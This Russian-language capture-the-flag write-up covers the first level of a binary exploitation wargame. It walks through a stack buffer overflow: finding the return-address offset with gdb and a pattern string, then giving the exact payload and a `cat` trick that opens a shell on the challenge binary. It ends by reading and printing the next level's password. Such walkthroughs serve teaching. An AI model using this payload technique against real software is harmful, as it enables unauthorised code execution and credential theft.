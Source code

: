 ## level1
Мы видим две функции: `main`, а также неиспользуемую функцию `run`, которая как раз и запускает оболочку `/bin/sh`. Наша цель – заставить `main` перейти к `run` перед завершением программы.

Рассмотрим её содержимое (с помощью [бинарного анализатора](https://cloud.binary.ninja/)):

![](docs/img/level1_1.png)

Программа использует буфер размера `0x40`, куда записывается строка из `STDIN`. Нам нужно совершить атаку [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) для того, чтобы перезаписать сохраненное на стеке значение `eip`  на адрес функции `run` , равный `0x08048444`. 

Чтобы найти отступ между началом буфера и сохраненным `eip` регистром, воспользуемся инструментом [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/). 

```sh
$ gdb level1
(gdb) r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

(gdb) p $eip
$1 = (void (*)()) 0x63413563
```

Введя значение `0x63413563` в pattern generator, мы находим, что отступ равен 76. Значит, необходимая нам строка ввода есть  `'a'*76 + '\x44\x84\x04\x08'`, где мы записываем адрес `run` в обратном порядке ввиду того, что архитектура x86 использует [порядок байтов](https://ru.wikipedia.org/wiki/Порядок_байтов) от младшего к старшему. 

Однако это еще не все:

```sh
$ python -c "print 'a'*76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Программа `/bin/sh`  выходит сразу же после прочтения EOF в потоке `stdin`. Чтобы предотвратить закрытие стандартного ввода, будем передавать команды через “прокладку” `cat`:

```sh
$ (python -c "print 'a'*76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
whoami
level2
cd ..; cat level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```